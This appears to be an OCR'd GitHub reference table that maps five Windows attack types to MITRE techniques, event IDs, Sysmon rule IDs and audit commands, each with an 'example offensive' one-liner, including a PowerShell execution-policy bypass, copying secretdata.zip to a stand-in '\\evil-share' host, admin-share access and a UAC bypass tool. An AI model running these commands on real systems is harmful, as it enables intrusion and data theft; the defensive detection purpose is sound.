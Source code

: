 


### **Unauthorized Access Attempt:**
    
**ID:** 001
**MITRE Tactic & Techniques:** Initial Access | Phishing [T1566.001]
**Event ID & Code:** 4625 | FAILED_LOGON
**Status Code:** 0x8007052e
**Sysmon Rule ID:** 101
**Commands and Code:** `Auditpol /set /subcategory:"Logon" /success:enable /failure:enable`
**Description:** An attempt to log on with incorrect credentials was made.
**Example Offensive Codes and Commands:** `net use \\target-system\IPC$ /user:username wrongpassword`

### **Malware Execution:**
    
**ID:** 002
**MITRE Tactic & Techniques:** Execution | Command and Scripting Interpreter [T1059]
**Event ID & Code:** 4104 | POWERSHELL_SCRIPT_EXECUTION
**Status Code:** N/A
**Sysmon Rule ID:** 102
**Commands and Code:** `Set-ExecutionPolicy Unrestricted`
**Description:** Execution of PowerShell script detected.
**Example Offensive Codes and Commands:** `powershell -ep bypass -f malicious.ps1`

### **Data Exfiltration:**
    
**ID:** 003
**MITRE Tactic & Techniques:** Exfiltration | Data Compressed [T1560.001]
**Event ID & Code:** 5145 | FILE_SHARE_ACCESS
**Status Code:** N/A
**Sysmon Rule ID:** 103
**Commands and Code:** `netsh trace start capture=yes`
**Description:** Unauthorized access to file share detected.
**Example Offensive Codes and Commands:** `copy /Z secretdata.zip \\evil-share\stolen-data\`


### **Lateral Movement:**
    
**ID:** 004
**MITRE Tactic & Techniques:** Lateral Movement | Remote Services: SMB/Windows Admin Shares [T1021.002]
**Event ID & Code:** 5145 | FILE_SHARE_ACCESS
Status Code:** N/A
Sysmon Rule ID:** 104
Commands and Code:** `net share admin$ /grant:username,FULL`
**Description:** Unauthorized access to administrative shares detected.
**Example Offensive Codes and Commands:** `net use \\target-system\admin$ /user:username password`

### **Privilege Escalation:**
    
**ID:** 005
MITRE Tactic & Techniques:** Privilege Escalation | Bypass User Account Control [T1548.002]
**Event ID & Code:** 4674 | PRIVILEGE_ELEVATION
Status Code:** N/A
**Sysmon Rule ID:** 105
Commands and Code:** `schtasks /run /tn "elevatedtask"`
**Description:** Attempt to elevate privileges detected.
**Example Offensive Codes and Commands:** `bypassuac.exe`
